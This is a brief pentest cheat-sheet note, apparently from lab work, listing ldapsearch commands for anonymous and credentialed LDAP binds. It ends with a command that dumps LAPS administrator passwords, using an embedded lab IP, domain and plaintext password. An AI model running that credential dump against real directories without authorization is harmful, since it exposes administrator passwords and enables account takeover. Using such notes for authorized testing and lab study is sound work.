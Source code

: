 # LDAP protocol  

Anonymous bind with ldapsearch.  

`ldapsearch -x -H ldap://IP -b "dc=example,dc=com"`  

Bind with credentials.  

`ldapsearch -x -H ldap://IP -D "domain\username" -w "password" -b "dc=example,dc=com"`  

Dumping LAPS password.  

`ldapsearch -x -H ldap://192.168.64.122 -D "hutch\fmcsorley" -w "CrabSharkJellyfish192" -b "dc=hutch,dc=offsec" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`

